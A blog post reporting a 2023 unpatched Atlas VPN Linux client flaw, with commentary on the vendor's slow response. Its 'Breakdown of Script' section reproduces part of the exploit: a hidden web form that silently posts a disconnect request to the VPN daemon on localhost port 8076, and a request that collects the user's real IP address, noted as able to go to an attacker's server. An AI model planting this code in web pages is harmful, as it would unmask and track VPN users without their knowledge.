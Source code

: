 ```yaml
---
title: Unpached AtlasVPN Exploit - Proof of Concept
date: 2023-09-03 12:00:00 +0800
categories: [Technology, VPN]
tags: [atlas vpn, privacy, exploit]     # TAG names should always be lowercase
toc: true
math: true
---
```


# Atlas VPN 
VPNs have seen a massive increase in usage in the last few years,[^footnote1] with a popular provider 'Atlas VPN' reportedly gaining more than six million users before being bought out by Nord Security, owners of NordVPN.[^footnote2] NordVPN has been extensively criticized for false advertising,[^footnote3] as well as its response to a data breach in 2019 - in which private keys and root access were compromised - which the company took more than 18 months to reveal.[^footnote4]

It appears their inability to secure their services has occurred again.  

# The Exploit
Two days ago, a throwaway account named ‘Educational-Map-8145’ (I’ll call them ‘EM8’) posted on the Cybersecurity subreddit what they claimed to be an unpached exploit for the AltasVPN on Linux.  After execution this code could disconnect the “AtlasVPN linux client and leak the users IP address”.[^footnote5] 

According to EM8, the AtlasVPN runs both a client and a daemon, and the client connects via “API on localhost on port 8076”. As any program can access localhost -  including websites - the malicious javascript could be run in any website to cause the VPN to disconnect, exposing the real IP of the user, which can be collected (included in the PoC script). Fortunately, EM8 firmly stated that the code was “not intended for illegal purposes”, so AltasVPN users should be fine.

# Breakdown of Script
Step 1: Send a command to stop the VPN

```
</code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </form>
   <script>
    window._currentIP = false;
     // Run main exploit code
    window.addEventListener('load', function () {
      addIPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // Blind CORS request to atlasvpnd to disconnect the VPN
    function triggerFormSubmission() {
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] Sending disconnect request to atlasvpnd...\n";
      document.getElementById('stopForm').submit();
```

Step 2: Grab Real IP address
   
```
     // Gets IP from ipfy API (this, of course, could be your server)
    function addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = function () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var response = JSON.parse(xhr.responseText);
          ipAddress = response.ip;
           logDiv.innerHTML += '[?] Current IP:' + ipAddress + "\n";
```

> The Reddit poster has the code in [full](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/).
{: .prompt-info }

> Don't use it maliciously. 
{: .prompt-warning }

# Confirmation 

| Click Box Below for PoC Video |
| --- | 
| ![ - - - - - - - Proof of Concept - Click here to View - - - - - - - ](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/997/661/288/787/693/original/a209c146534a35a3.mp4) | 

In a post from Chris Partridge on Mastodon, he called the “hilarious[ly]” bad security “utter garbage”.[^footnote7]  Also included with the exposé was a video which appears to demonstrate the Proof of Concept for the dropped connection, as well as the explanation that since it makes "simple request" this allows it to slip past Cross-Origin Resource Sharing ([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)). 


![CORS vs Exploit](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/998/159/997/223/316/original/88d1a449d7380696.png)


# AtlasVPN Response (or Lack Thereof)
In the original reddit post, EM8 claims they tried to contact AtlasVPN about the issue but received “no answer” and saw “[no] signs of a bug bounty programme”. In fact, the response was so lacking and the fact that the security “suck[ed] so massively” they found it “hard to believe this is a bug rather than a backdoor”. 

Yikes.

Hopefully Atlas will address the exploit with the same speed as NordVPN. So only 18 months to go.

# Update - As of 2023/09/07 
AtlasVPN has responded,[^footnote5] writing that their "slow reaction ...[is] unacceptable" and that they are working to improve the reporting process and the security of the VPN. In reporting by BleepingComputer the vulnerability was called a "zero-day vulnerability", however this is incorrect as it was known to AtlasVPN before being released into the wild.[^footnote8]

[^footnote1]: [https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/](https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/)
[^footnote2]: [https://www.comparitech.com/vpn/reviews/atlas-vpn-review/](https://www.comparitech.com/vpn/reviews/atlas-vpn-review/)
[^footnote3]: [https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi](https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi)
[^footnote4]: [https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/](https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/)
[^footnote5]: [https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/)
[^footnote7]: [https://cybersecurity.theater/@tweedge/110997661135498890](https://cybersecurity.theater/@tweedge/110997661135498890)
[^footnote8]: [https://www.bleepingcomputer.com/news/security/atlas-vpn-zero-day-vulnerability-leaks-users-real-ip-address/](https://www.bleepingcomputer.com/news/security/atlas-vpn-zero-day-vulnerability-leaks-users-real-ip-address/)

